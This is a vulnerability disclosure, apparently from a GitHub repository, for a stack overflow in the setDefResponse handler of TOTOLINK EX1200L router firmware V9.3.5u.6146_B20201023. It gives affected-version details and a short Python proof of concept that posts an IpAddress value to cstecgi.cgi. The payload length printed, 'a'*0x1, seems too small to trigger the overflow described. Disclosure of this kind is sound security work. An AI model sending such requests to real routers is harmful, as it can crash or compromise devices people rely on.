 ## Overview

- Manufacturer's website: https://www.totolink.net/
- Firmware download website:
  - https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/217/ids/36.html

## Affected version

totolink EX1200L_Firmware V9.3.5u.6146_B20201023

## Vulnerability details

A stack overflow vulnerability exists in the `setDefResponse` function of program `/www/cgi-bin/cstecgi.cgi` in EX1200L V9.3.5u.6146_B20201023. The function receives the `IpAddress` parameter from the user request and copies it into the variable `v15` on the stack, causing a stack overflow.

![image1](image/1.png)

## PoC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"


cookie = {"Cookie":"uid=1234"}
data = {
"topicurl":"setDefResponse",
"IpAddress":"a"*0x1,
}

response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print(response)
```

Here is a screenshot of stack overflow:

![demo](image/demo.png)
